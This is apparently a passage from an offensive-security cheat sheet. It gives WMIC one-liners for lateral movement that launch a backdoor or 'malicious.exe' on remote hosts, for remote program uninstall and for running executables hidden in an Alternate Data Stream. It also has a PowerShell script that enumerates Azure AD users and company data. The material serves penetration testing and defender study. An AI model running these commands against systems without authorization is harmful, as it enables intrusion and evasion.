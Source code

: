 Lateral Movement

```
wmic /node:<IP> /user:administrator process call create "cmd.exe /c <backdoor>"
```

Uninstall Program

```
wmic /node:"#{node}" product where "name like '#{product}%%'" call uninstall
```

Execute a .EXE file stored as an Alternate Data Stream (ADS)

```
wmic.exe process call create "c:\ads\notsus.txt:malicious.exe"
```

Execute malicious.exe on a remote system

```
wmic.exe /node:"192.168.0.99" process call create "malicious.exe"
```

## Passive OS Detection and TCP Fingerprinting

![image](https://user-images.githubusercontent.com/72598486/216523402-aceea591-a143-4145-bdbc-f2b02027682e.png)

## Offline Microsoft Azure Active Directory Harvesting with PowerShell

This script demonstrates how to interact with Microsoft Azure Active Directory via PowerShell.  You will need an Azure AD account first, which is free: http://azure.microsoft.com/en-us/services/active-directory/

```
# Import the Azure AD PowerShell module:
Import-Module -Name Azure
# List the cmdlets provided by the module (750+):
Get-Command -Module Azure 
Add-AzureAccount
Get-AzureAccount
Get-AzureSubscription

# Import the Azure AD PowerShell module for MSOnline:
Import-Module -Name MSOnline
# List the cmdlets provided by the MSOnline module:
Get-Command -Module MSOnline

# Connect and authenticate to Azure AD, where your username will
# be similar to '<yourusername>@<yourdomain>.onmicrosoft.com':
$creds = Get-Credential
Connect-MsolService -Credential $creds


# Get subscriber company contact information:
Get-MsolCompanyInformation


# Get subscription and license information:
Get-MsolSubscription | Format-List *
Get-MsolAccountSku   | Format-List *


# Get Azure AD users:
Get-MsolUser


```
